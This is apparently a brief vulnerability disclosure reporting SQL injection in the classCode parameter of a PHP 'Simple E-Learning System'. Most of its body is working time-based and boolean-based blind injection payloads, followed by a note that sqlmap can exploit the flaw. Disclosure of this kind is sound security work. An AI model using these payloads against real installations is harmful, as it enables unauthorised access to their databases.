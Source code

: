 # Simple E-Learning System by oretnom23 has SQL injection

BUG_Author：xtxxueyan

vendors: https://www.sourcecodester.com/php-simple-e-learning-system-source-code

Vulnerability File: /vcs/classRoom.php?classCode=

Vulnerability location: /vcs/classRoom.php?classCode=, classCode

dbname = vcs_db

### time-based blind
Payload: /vcs/classRoom.php?classCode=-9082' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,sleep(5),NULL-- - // Leak place ---> classCode

### boolean-based blind
Payload: /vcs/classRoom.php?classCode=class101_a' AND 6907=6907 AND 'TSIZ'='TSIZ // Leak place ---> classCode

Payload: /vcs/classRoom.php?classCode=class101_a' AND 6907=6907 AND 'TSIZ'='TSIQ // Leak place ---> classCode


sqlmap can inject it，can query the database in use now
![](https://github.com/xtxxueyan/image/blob/main/J8ZEAAUG9EBDHPI0K59UAHF.png)

